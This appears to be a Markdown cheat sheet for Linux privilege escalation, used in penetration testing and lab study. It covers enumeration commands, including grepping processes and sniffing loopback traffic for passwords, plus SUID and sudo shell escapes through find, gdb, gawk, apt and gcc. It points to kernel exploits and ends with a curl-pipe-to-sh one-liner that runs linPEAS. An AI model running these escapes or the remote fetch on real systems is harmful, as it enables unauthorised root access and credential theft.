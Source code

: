 # Manual Enumeration

```shell
ps aux
ps -aux | grep pass
ls -lah /etc/cron*
crontab -l
sudo crontab -l
dpkg -l
# find writeable folders with current user
find / -writable -type d 2>/dev/null
# find writeable files with current user
find / -writable 2>/dev/null 
cat /etc/fstab
lsblk
lsmod
/sbin/modinfo libata
find / -perm -u=s -type f 2>/dev/null
sudo tcpdump -i lo -A | grep "pass"
```

# User Trails

```shell
env
cat .bashrc
```
# CRON Jobs

The Linux-based job scheduler is known as cron. Scheduled tasks are listed under the
/etc/cron.* directories, where * represents the frequency at which the task will run. For example,
tasks that will be run daily can be found under /etc/cron.daily. Each script is listed in its own
sub-directory.

```shell
ls -lah /etc/cron*
```

It is worth noting that system administrators often add their own scheduled tasks in the
/etc/crontab file. These tasks should be inspected carefully for insecure file permissions, since
most jobs in this particular file will run as root. To view the current user’s scheduled jobs, we can
run crontab followed by the -l parameter.

```shell
crontab -l
```

# Abusing Password Authentication

# Command Abused Binaries

We can use the [GTFOBins](https://gtfobins.github.io/gtfobins/) to read existent exploitation for binaries in Linux. Below more examples.

## SETUID

#### find

find utils can be abused and can execute a shell. We use `-p` to preventing the effective user from being reset.

```shell
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

#### gdb

```shell
/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

#### cp

```shell
LFILE=file_to_change
/usr/bin/cp --attributes-only --preserve=all ./cp "$LFILE"
```

#### gawk

```shell
/usr/bin/gawk 'BEGIN {system("/bin/sh")}'
```

# Cabapilities

To get all capabilities on file in the system we can use the following commands, also grepping for a specific capability.

```shell
/usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null | grep -i setuid
```

# Abusing SUDO

In the file `/etc/sudoers` the sysadmin can specify which commands the users can run with the "sudo" keyword that can be used to run the command with elevated privileges. This could led to a many exploit tecniques that we can find referring to GTFObins. Normally users that can run "sudo" are the users listed in the `sudo group`.

#### apt

```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

#### gcc

```shell
sudo gcc -wrapper /bin/sh,-s .
```

# Kernel Exploits

There are many exploits for many Linux kernel versions out there. We can check the OS Version with cat /etc/os-release. Famous examples of Linux kernel exploits are [DirtyCow](https://dirtycow.ninja/) or [DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). There is also a recent exploit on the GNU C Library [Looney Tunables](https://github.com/hadrian3689/looney-tunables-CVE-2023-4911) that can work on newer systems as a privilege escalation. An interesting and recent case is the Pkexec Local Privilege Escalation exploit that can be run with [PwnKit](https://github.com/ly4k/PwnKit). Many of this exploits can be found directly with `searchsploit`.

## linPEAS oneliner

```shell
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```